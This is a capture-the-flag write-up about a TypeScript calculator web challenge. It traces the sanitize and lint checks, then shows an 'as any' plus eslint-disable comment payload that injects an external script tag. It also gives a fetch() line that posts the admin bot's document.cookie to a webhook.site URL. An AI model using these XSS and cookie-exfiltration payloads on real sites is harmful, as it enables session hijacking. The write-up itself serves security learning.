





## Enum

In this challenge, we're provided with a website that performs basic calculations.



Going through the source, we see the following code in the index.ts file.

```typescript
app.get('/', async (req: Request, res: Response) => {
    const query = req.query.q ? req.query.q.toString() : ''
    const message = query ? await runQuery(req.query.q as string) : ''

    res.send(`
        <html>
            <body>
                <div>
                    <h1>Calculator</h1>
                    <form action="/" method="GET">
                        <input type="text" name="q" value="${sanitize(query)}">
                        <input type="submit">
                    </form>
                    <p>${message}</p>
                </div>
            </body>
        </html>
        <style>
            html, body {
                font-family: Arial, sans-serif;
                margin: 0;
                padding: 0;
                display: grid;
                place-items: center;
            }
            p {
                max-width: 40ch;
            }
            div {
                min-width: 40ch;
                min-height: 20ch;
                border: 1px solid #aaa;
                border-radius: 5px;
                padding: 4rem;
            }
            input[type="text"] {
                width: 100%;
                padding: 0.5rem;
                margin-bottom: 1rem;
            }
        </style>
    `)
})
```

We see the sanitize function being run on our query and message is displayed in the output.

```html
<h1>Calculator</h1>
                    <form action="/" method="GET">
                        <input type="text" name="q" value="${sanitize(query)}">
                        <input type="submit">
                    </form>
                    <p>${message}</p>
```

Let's check the sanitize function.

```typescript
const sanitize = (code: string): string => {
    return code
        .replaceAll(/</g, '&lt;')
        .replaceAll(/>/g, '&gt;')
        .replaceAll(/"/g, '&quot;')
}
```

It is simply replacing the `<,>,"` with relevant html encoding.

Next thing to see is the `message` variable.

```typescript
const query = req.query.q ? req.query.q.toString() : ''
const message = query ? await runQuery(req.query.q as string) : ''
```

We see it's running the `runQuery` function here on our query.

runQuery
```typescript
const runQuery = async (query: string): Promise<string> => {
    if (query.length > 75) {
        return 'equation is too long'
    }

    try {
        const result = await run(query, 1000, 'number')

        if (result.success === false) {
            const errors: string[] = result.errors
            return sanitize(errors.join('\n'))
        } else {
            const value: number = result.value
            return `result: ${value.toString()}`
        }
    } catch (error) {
        return 'unknown error'
    }
}
```

It first checks that the equation should be <75 characters. Then it executes `run` function. If from `run` the result is a success, it would simply return the result otherwise, it will perform `sanitize` on the resulting error.

The `run` is imported from the `jail` so let's take a look at it there.

```typescript
import { run } from './jail'
```

`jail/index.ts`.
```typescript
export const run = async <T extends keyof RunTypes>(
    code: string,
    timeout: number,
    type: T,
): Promise<RunResult<T>> => {
    const result = await sanitize(type, code)
    if (result.success === false) return result
    return await queue.queue<RunResult<T>>(async (isolate) => {
        const context = await isolate.createContext()
        return Promise.race([
            context.eval(result.output).then((output): RunResult<T> => ({
                success: true,
                value: output,
            })),
            new Promise<RunResult<T>>((resolve) => {
                setTimeout(() => {
                    context.release()
                    resolve({
                        success: false,
                        errors: ['evaluation timed out!'],
                    })
                }, timeout)
            })
        ])
    })
}
```

So in the `run` function, it first parses our code to a new `sanitize` function and then parses it in `eval` which actually performs the calculator functions.

Let's look at the new `sanitize` function.

`jail/sanitize.ts`
```typescript
export const sanitize = async (
    type: string,
    input: string,
): Promise<Result<string>> => {
    if (/[^ -~]|;/.test(input)) {
        return {
            success: false,
            errors: ['only one expression is allowed'],
        }
    }

    const expression = parse(input)

    if (!expression.success) return expression

    const data = `((): ${type} => (${expression.output}))()`
    const project = new VirtualProject('file.ts', data)
    const { errors, messages } = await project.lint()

    if (errors > 0) {
        return { success: false, errors: messages }
    }

    return project.compile()
}
```

Here, it first checks that we can only enter a single expression in the input.

```typescript
if (/[^ -~]|;/.test(input)) {
        return {
            success: false,
            errors: ['only one expression is allowed'],
        }
    }
```

So we can't enter something like `7*7;1+1` it would through an error.

Then it uses `parse` on the input and saves it as `expression`. 

So let's say if I enter `1+1` in input the `expression` variable would be like `{ success: true, output: '1 + 1' }` and if I enter an invalid input like `1+1'` then it throughs the error as `{ success: false, errors: [ 'expected a single statement' ] }`

Next it creates a variable `data` and lints our code.

`Linting is the process of analyzing source code for potential errors, bugs, stylistic inconsistencies, and suspicious constructs. It's a form of static analysis that helps ensure code quality, maintainability, and adherence to coding standards.`

Here in this code, it uses `ESLint` in `jail/project.ts` to perform the linting.

So now let's say till now I've been entering numbers in the input but if I enter an string like "1+1" it would validate and show an error because of the `ESLint`.



Now to bypass this check in typescript, we can use `as any` after the string which would return our query as string.



But it shows a different error. 

A quick google search shows, that we can disable the ESLint rules temporarirly by adding comments.

Adding `/* eslint-disable-line */` after our expression, we can simply disable the eslint rule and get our string printed.



Since we can now inject the string, let's check if we can inject any external script to run.

I made a simple file with `alert(2)` as the content and used the following payload to trigger it.

`"<script src=http://0.0.0.0/t></script>" as any /* eslint-disable-line */`



Now to get the flag, we can see in `adminbot_test.js`, it assigns the flag as admin's cookie when the admin visits our link.

```javascript
await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: new URL(SITE).host
        });
```

So we can capture the cookie with the following script.

`fetch("https://webhook.site/ec8e1a07-ced0-44b9-b3f4-e91d325982eb", {method: "post", body: document.cookie})`

The payload to enter in the calculator would be.

`"<script src=http://my.s/t></script>" as any /* eslint-disable-line */`

Note that the payload needs to be less than 75 characters else, it'll fail.

Now provide the url to `admin bot` and it would show us the cookie in our web hook.

